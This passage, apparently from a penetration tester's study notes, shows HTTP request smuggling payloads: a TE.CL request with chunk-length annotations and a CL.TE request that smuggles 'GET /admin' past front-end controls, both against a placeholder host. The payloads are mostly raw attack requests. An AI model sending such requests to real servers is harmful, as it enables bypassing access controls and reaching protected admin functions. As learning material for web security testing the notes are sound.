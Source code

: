 ### <mark style="color:purple;">**TE.CL**</mark>

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7b
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0\r\n
\r\n
```

`7b` -> all chars from `GET` until `x=`

`Content-Legth: 4` -> `7` `c` `\r` `\n`

{% hint style="info" %}
**Note**: Update Content-Length must be unchecked
{% endhint %}

## <mark style="color:purple;">Exploitation</mark> <a href="#using-http-request-smuggling-to-bypass-front-end-security-controls" id="using-http-request-smuggling-to-bypass-front-end-security-controls"></a>

### <mark style="color:purple;">Bypass front-end security controls</mark> <a href="#using-http-request-smuggling-to-bypass-front-end-security-controls" id="using-http-request-smuggling-to-bypass-front-end-security-controls"></a>

<mark style="color:purple;">**CL.TE**</mark>

```http
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: x
```
